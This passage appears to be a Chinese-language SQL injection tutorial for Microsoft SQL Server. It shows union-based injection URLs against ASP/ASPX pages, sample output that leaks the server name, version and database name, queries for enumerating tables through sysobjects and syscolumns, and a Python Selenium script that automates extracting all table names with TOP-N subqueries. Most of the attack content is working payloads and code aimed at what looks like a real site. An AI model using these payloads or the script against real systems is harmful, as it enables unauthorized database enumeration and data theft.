    host\_name\(\)：連接數據庫服務器的計算機名稱

   @@version：獲取數據庫版本號

   db\_name\(\)：數據庫的庫名稱

   @@servername：當前數據庫計算機的名稱=host\_name\(\)

 \(1\) http://xxxxx/show.asp?code=-1' union all

select 1,null,3,null,null,6,host\_name\(\),@@version,db\_name\(\),10 -- 

輸出結果如下所示：

    附件1：AYD

    附件2：Microsoft SQL Server....

    附件3：ahykd\_new

其中數據庫的名稱就是ahykd\_new，接下來相同的道理獲取數據庫所有表及列。

SQL Server自帶系統對象表，當前數據庫所有字段。

sysobjects 表名 syscolumns 列名

其中，name表示對象名（表名），id表示表編號，type表示對象類型，其值爲U表示用戶表，S表示系統表，C約束，PK主鍵等。

sysobjects 和 syscolumns 之間以id互相對應，一個表名在sysobjects得到id後可以在syscolumns找到它的列名。

 重點知識：

a.查看所有表名語句 select name from sysobjects where type='U';

b.詢表table1的所有字段名稱 select name from syscolumns where id=object\_id\('table1'\)；

通過子查詢一個升序，一個降序獲取第二個值，同理第三個top 3。 下面通過Python定義一個爬蟲不斷訪問top n，獲取所有的表名，代碼如下：

事先下載：

cmd打開之後

pip install selenium

```text
# coding=utf-8
from selenium import webdriver             
driver = webdriver.Firefox()    
 
#查询表的名字
#(select top 1 name from (select top " + str(i) +" name from sysobjects where xtype='u' order by 1 asc)a order by 1 desc)
i = 1
while i<=87:
    url = "http://...tztgxx.aspx?code=-115' union all select 1,null,1,null,null,6,host_name(),@@servername,(select top 1 name from (select top " + str(i) +" name from sysobjects where xtype='u' order by 1 asc)a order by 1 desc),10 --"
    #print url
    driver.get(url)
    elem = driver.find_element_by_xpath("//form[@name='form1']/div[2]/table/tbody/tr[7]")
    print elem.text
    i = i + 1
```
